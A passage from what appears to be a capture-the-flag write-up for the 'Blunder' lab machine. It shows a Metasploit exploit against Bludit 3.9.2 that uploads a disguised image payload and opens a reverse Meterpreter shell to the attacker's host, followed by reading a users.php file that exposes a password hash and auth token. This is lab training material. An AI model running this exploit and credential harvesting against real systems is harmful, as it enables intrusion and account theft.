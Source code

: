 ```
msf5 exploit(linux/http/bludit_upload_images_exec) > run

[*] Started reverse TCP handler on 10.10.14.29:80 
[+] Logged in as: fergus
[*] Retrieving UUID...
[*] Uploading AqdgdpaOLi.png...
[*] Uploading .htaccess...
[*] Executing AqdgdpaOLi.png...
[*] Sending stage (38288 bytes) to 10.10.10.191
[*] Meterpreter session 2 opened (10.10.14.29:80 -> 10.10.10.191:34040) at 2020-05-30 16:59:15 -0400
[+] Deleted .htaccess

meterpreter > shell
Process 5132 created.
Channel 0 created.
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp$
```

## Access to user hugo

There's another Bludit CMS installation in `/var/www/bludit-3.10.0a`

```
www-data@blunder:/var/www$ cat bludit-3.10.0a/bl-content/databases/users.php
cat bludit-3.10.0a/bl-content/databases/users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
```
